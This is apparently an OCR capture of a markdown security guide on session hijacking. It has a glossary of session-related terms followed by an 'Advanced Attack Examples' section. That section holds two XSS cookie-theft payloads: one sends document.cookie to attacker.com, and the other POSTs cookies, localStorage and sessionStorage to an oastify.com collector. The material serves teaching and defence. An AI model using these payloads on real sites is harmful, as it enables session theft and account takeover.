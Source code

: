 ### 🎭 **Man-in-the-Middle (MITM)**
Attack where attackers secretly intercept and potentially alter communications between two parties.

### 🔄 **Session Fixation**
Attack where an attacker fixes a user's session ID before authentication and then hijacks the session after login.

### 🎯 **Session Prediction**
Technique of analyzing session ID patterns to predict valid session tokens for unauthorized access.

### 🔐 **Session Token**
Unique identifier used to maintain user authentication state across multiple HTTP requests.

### ⏱️ **Session Timeout**
Security mechanism that automatically terminates user sessions after a period of inactivity.

### 🛡️ **Stateless Authentication**
Authentication method that doesn't require server-side session storage, typically using tokens like JWTs.

### 🔄 **Token Rotation**
Security practice of regularly generating new session tokens to limit exposure window.

### 🔍 **Traffic Analysis**
Technique of examining network communication patterns to extract sensitive information like session tokens.

---

## Advanced Attack Examples

### 🎯 Session Hijacking via XSS
```javascript
// Cookie theft payload
<script>
document.location = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>

// Advanced session theft
<script>
fetch('https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        url: window.location.href,
        timestamp: new Date().toISOString()
    }),
    headers: {'Content-Type': 'application/json'}
});
</script>
```
